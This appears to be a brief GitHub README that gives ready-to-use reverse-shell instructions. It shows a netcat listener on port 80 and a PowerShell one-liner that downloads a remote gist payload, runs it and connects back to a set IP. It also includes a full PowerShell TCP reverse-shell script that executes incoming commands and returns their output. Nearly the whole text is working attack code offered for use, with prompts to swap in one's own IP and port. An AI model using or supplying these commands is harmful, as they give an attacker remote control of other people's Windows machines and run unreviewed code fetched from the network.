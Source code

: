 ## Server side (port 80)
- Use 80/87
```bash
nc -lp 80
```

## Client side
- Paste in powershell and change ip address and port number
```ps1
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```

## Script
- Change the ip address in the "quotes" and the port (80)
```ps1
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1

## From this video
https://www.youtube.com/watch?v=A2JNBpUotZM
